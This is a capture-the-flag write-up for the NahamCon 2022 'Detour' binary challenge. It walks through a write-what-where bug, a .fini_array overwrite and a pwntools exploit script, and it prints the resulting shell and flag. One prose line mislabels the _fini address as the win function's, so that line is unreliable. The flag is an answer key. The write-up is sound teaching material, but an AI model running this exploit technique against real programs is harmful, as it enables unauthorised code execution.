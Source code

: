 # Detour - NahamCon CTF 2022 - [https://www.nahamcon.com/](https://www.nahamcon.com/)
Binary Exploitation, 404 Points

## Description

![Info.JPG](images/Info.JPG)
 
## Detour Solution

Let's run ```checksec``` on the attached file [detour](./detour):
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ checksec detour
[*] '/nahamcon/binary_exploitation/detour'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see we have [NX Enabled](https://ctf101.org/binary-exploitation/no-execute/) and [Stack Canary](https://ctf101.org/binary-exploitation/stack-canaries/).

Let's run the binary:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ ./detour
What: 1
Where: 2
Segmentation fault
```

So we can see that we have [Write-what-Were](https://www.martellosecurity.com/kb/mitre/cwe/123/).

Let's observe the ```main``` function using [Ghidra](https://github.com/NationalSecurityAgency/ghidra):
```c
undefined8 main(void)
{
  long in_FS_OFFSET;
  undefined8 local_20;
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("What: ");
  __isoc99_scanf(&DAT_00402013,&local_20);
  getchar();
  printf("Where: ");
  __isoc99_scanf(&DAT_0040201f,&local_18);
  getchar();
  *(undefined8 *)((long)&base + local_18) = local_20;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

And by observing the code we found also the ```win``` function:
```console
void win(void)
{
  system("/bin/sh");
  return;
}
```

We need to write the address of ```win``` function to location that can execute it.

We can do it by override the address of the ```fini_array``` which called after the ```main``` function.

Let's find the address of the relevant functions using ```gdb```:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ gdb detour
..
gef➤  info file
Symbols from "/nahamcon/binary_exploitation/detour/detour".
Local exec file:
	`/nahamcon/binary_exploitation/detour/detour', file type elf64-x86-64.
	Entry point: 0x4010f0
	0x00000000004002e0 - 0x00000000004002fc is .interp
	0x0000000000400300 - 0x0000000000400320 is .note.gnu.property
	0x0000000000400320 - 0x0000000000400344 is .note.gnu.build-id
	0x0000000000400344 - 0x0000000000400364 is .note.ABI-tag
	0x0000000000400368 - 0x0000000000400390 is .gnu.hash
	0x0000000000400390 - 0x0000000000400498 is .dynsym
	0x0000000000400498 - 0x000000000040052e is .dynstr
	0x000000000040052e - 0x0000000000400544 is .gnu.version
	0x0000000000400548 - 0x0000000000400588 is .gnu.version_r
	0x0000000000400588 - 0x00000000004005e8 is .rela.dyn
	0x00000000004005e8 - 0x0000000000400678 is .rela.plt
	0x0000000000401000 - 0x000000000040101b is .init
	0x0000000000401020 - 0x0000000000401090 is .plt
	0x0000000000401090 - 0x00000000004010f0 is .plt.sec
	0x00000000004010f0 - 0x0000000000401345 is .text
	0x0000000000401348 - 0x0000000000401355 is .fini
	0x0000000000402000 - 0x0000000000402023 is .rodata
	0x0000000000402024 - 0x0000000000402078 is .eh_frame_hdr
	0x0000000000402078 - 0x00000000004021b8 is .eh_frame
	0x00000000004031b8 - 0x00000000004031c8 is .init_array
	0x00000000004031c8 - 0x00000000004031d0 is .fini_array
	0x00000000004031d0 - 0x00000000004033a0 is .dynamic
	0x00000000004033a0 - 0x00000000004033b0 is .got
	0x00000000004033b0 - 0x00000000004033f8 is .got.plt
	0x00000000004033f8 - 0x0000000000403408 is .data
	0x0000000000403410 - 0x0000000000403438 is .bss
$2 = {<text variable, no debug info>} 0x401348 <_fini>
gef➤  print win
$3 = {<text variable, no debug info>} 0x401209 <win>
```
So we need to write ```0x401348``` (win) to ```0x4031c8``` (.fini_array).

By observing the code we can see the following line:
```c
*(undefined8 *)((long)&base + local_18) = local_20;
```

Meaning that we need to find also the address of the ```base```.

We can do it also by using ```gdb``` by disassemblie the ```main``` function:
```asm
gef➤  disassemble main
Dump of assembler code for function main:
   0x0000000000401220 <+0>:	endbr64 
   0x0000000000401224 <+4>:	push   rbp
   0x0000000000401225 <+5>:	mov    rbp,rsp
   0x0000000000401228 <+8>:	sub    rsp,0x20
   0x000000000040122c <+12>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000401235 <+21>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401239 <+25>:	xor    eax,eax
   0x000000000040123b <+27>:	lea    rdi,[rip+0xdca]        # 0x40200c
   0x0000000000401242 <+34>:	mov    eax,0x0
   0x0000000000401247 <+39>:	call   0x4010c0 <printf@plt>
   0x000000000040124c <+44>:	lea    rax,[rbp-0x18]
   0x0000000000401250 <+48>:	mov    rsi,rax
   0x0000000000401253 <+51>:	lea    rdi,[rip+0xdb9]        # 0x402013
   0x000000000040125a <+58>:	mov    eax,0x0
   0x000000000040125f <+63>:	call   0x4010e0 <__isoc99_scanf@plt>
   0x0000000000401264 <+68>:	call   0x4010d0 <getchar@plt>
   0x0000000000401269 <+73>:	lea    rdi,[rip+0xda7]        # 0x402017
   0x0000000000401270 <+80>:	mov    eax,0x0
   0x0000000000401275 <+85>:	call   0x4010c0 <printf@plt>
   0x000000000040127a <+90>:	lea    rax,[rbp-0x10]
   0x000000000040127e <+94>:	mov    rsi,rax
   0x0000000000401281 <+97>:	lea    rdi,[rip+0xd97]        # 0x40201f
   0x0000000000401288 <+104>:	mov    eax,0x0
   0x000000000040128d <+109>:	call   0x4010e0 <__isoc99_scanf@plt>
   0x0000000000401292 <+114>:	call   0x4010d0 <getchar@plt>
   0x0000000000401297 <+119>:	mov    rax,QWORD PTR [rbp-0x10]
   0x000000000040129b <+123>:	mov    rdx,rax
   0x000000000040129e <+126>:	lea    rax,[rip+0x218b]        # 0x403430 <base>
   0x00000000004012a5 <+133>:	add    rdx,rax
   0x00000000004012a8 <+136>:	mov    rax,QWORD PTR [rbp-0x18]
   0x00000000004012ac <+140>:	mov    QWORD PTR [rdx],rax
   0x00000000004012af <+143>:	mov    eax,0x0
   0x00000000004012b4 <+148>:	mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004012b8 <+152>:	xor    rcx,QWORD PTR fs:0x28
   0x00000000004012c1 <+161>:	je     0x4012c8 <main+168>
   0x00000000004012c3 <+163>:	call   0x401090 <__stack_chk_fail@plt>
   0x00000000004012c8 <+168>:	leave  
   0x00000000004012c9 <+169>:	ret    
End of assembler dump.
```

An we can see the ```base``` on ```lea    rax,[rip+0x218b]        # 0x403430 <base>``` which is ```0x403430```.

Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html) with the following [code](./exp_detour.py):
```python
from pwn import *

elf = ELF('./detour')
libc = elf.libc

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 32680)
else:
    p = process(elf.path)

# funcions address
address_of_win = 0x401209
address_of_fini = 0x4031c8
address_of_base = 0x403430
p.recvuntil(':')
p.sendline(str(address_of_win))
p.recvuntil(':')
p.sendline(str(address_of_fini-address_of_base))
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/detour]
└──╼ $ python3 detour_pwn.py REMOTE
python3 exp_rop.py REMOTE
[*] '/nahamcon/binary_exploitation/detour'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.nahamcon.com on port 32680: Done
[*] Switching to interactive mode
 $ ls
bin
detour
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
$ cat flag.txt
flag{787325292ef650fa69541722bb57bed9}
```

And we get the flag ```flag{787325292ef650fa69541722bb57bed9}```.